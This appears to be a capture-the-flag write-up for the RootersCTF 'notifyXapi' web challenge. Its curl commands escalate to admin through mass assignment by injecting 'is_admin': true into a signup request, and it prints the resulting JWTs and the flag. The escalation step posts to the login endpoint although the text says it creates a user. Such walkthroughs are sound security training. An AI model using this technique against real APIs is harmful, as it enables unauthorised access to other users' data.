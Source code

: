 # notifyXapi

### Challenge

- **Category**: Web

Reynholm Industries needed a system to issue notifications/messages for their employees. Maurice Moss, coding genius of The IT crowd, was assigned with the task to create one. The basic idea was that upper-level employees can create and view all the notifications. The lower-level employees shouldn't be able to read the confidential upper-level only notifications. Is Maurice really a coding genius ?

Challenge link: <https://notifyxapi.rootersctf.in/>

![](Images/1.png)

### Solution

When I entered in the web application i saw three api methods:

1. Register

   ```bash
   $ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/register/" -H "Content-Type: application/json" \
   -d '{"email": "test@test.com", "password": "password"}'
   ```

   

2. Login

   ```bash
   $ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/login/" -H "Content-Type: application/json" \
   -d '{"email": "test@test.com", "password": "password"}'
   ```

   

3. Creating Notifications

   ```bash
   $ export ACCESS="j.w.t"
   $ curl -H "Authorization: Bearer $ACCESS" -H "Content-Type: application/json" "https://notifyxapi.rootersctf.in/api/v1/notifications/"
   ```

   

When I registered a user I realized that in the response of the request there was a parameter called "**is_admin**" with value **false**.

```bash
$ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/register/" -H "Content-Type: application/json" -d '{"email": "cynops@test.com", "password": "password"}'

{"created_user":{"id":331,"user":{"email":"cynops@test.com","is_admin":false,"id":331},"authentication_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE1NzA4MzA1MTksIm5iZiI6MTU3MDgzMDUxOSwianRpIjoiMmZhYjViZDUtNDU2MC00NzQ2LWFiMTItN2FhM2I4NTk3ZmJjIiwiZXhwIjoxNjAyMzY2NTE5LCJpZGVudGl0eSI6MzMxLCJmcmVzaCI6ZmFsc2UsInR5cGUiOiJhY2Nlc3MifQ.pOtqBY4g-aaQh4VNbUH5T_hakpXCuJHefDI4jYKQsNY"}}

```

So i decided to create a new user and add in the request the parameter "**is_admin**" with value **true**.

The new user has administrator privileges so we can see the notifications of all users and therefore the flag.

```bash
$ curl -X POST "https://notifyxapi.rootersctf.in/api/v1/login/" -H "Content-Type: application/json" -d '{"email": "cynops_admin@test.com", "password": "password", "is_admin":true}'

{"created_user":{"id":363,"user":{"email":"cynops_admin@test.com","is_admin":true,"id":363},"authentication_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE1NzA4NzA5MDYsIm5iZiI6MTU3MDg3MDkwNiwianRpIjoiMGExOTA3MTktMTU2Yi00NzA2LWIwODEtMmE2Y2Q1YTFlY2ZmIiwiZXhwIjoxNjAyNDA2OTA2LCJpZGVudGl0eSI6MzYzLCJmcmVzaCI6ZmFsc2UsInR5cGUiOiJhY2Nlc3MifQ.zl8IJgILpDn2Z-kBUXsr2hk6qxoCpk-xbpqYNyz7JKs"}}

```

To retrieve the flag you only need to request the notifications with the new admin user token.

```bash
$ export ACCESS=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE1NzA4NzA5MDYsIm5iZiI6MTU3MDg3MDkwNiwianRpIjoiMGExOTA3MTktMTU2Yi00NzA2LWIwODEtMmE2Y2Q1YTFlY2ZmIiwiZXhwIjoxNjAyNDA2OTA2LCJpZGVudGl0eSI6MzYzLCJmcmVzaCI6ZmFsc2UsInR5cGUiOiJhY2Nlc3MifQ.zl8IJgILpDn2Z-kBUXsr2hk6qxoCpk-xbpqYNyz7JKs

$ curl -H "Authorization: Bearer $ACCESS" -H "Content-Type: application/json" "https://notifyxapi.rootersctf.in/api/v1/notifications/"

[{"body":"rooters{a_big_hard_business_in_a_big_hard_building}ctf","issuer":{"email":"admin@test.com","id":1},"id":1,"title":"flag"},{"body":"hey, rosssssss","issuer":{"email":"test@test.com","id":2},"id":2,"title":"The IT Crowd"},{"body":"Jen Barber? Is that the internet?","issuer":{"email":"test@test.com","id":2},"id":3,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":4,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":5,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":6,"title":"The IT Crowd"},{"body":"hey, rosssssss","issuer":{"email":"boss@test.com","id":14},"id":7,"title":"'"}]
```

> Flag: rooters{a_big_hard_business_in_a_big_hard_building}ctf
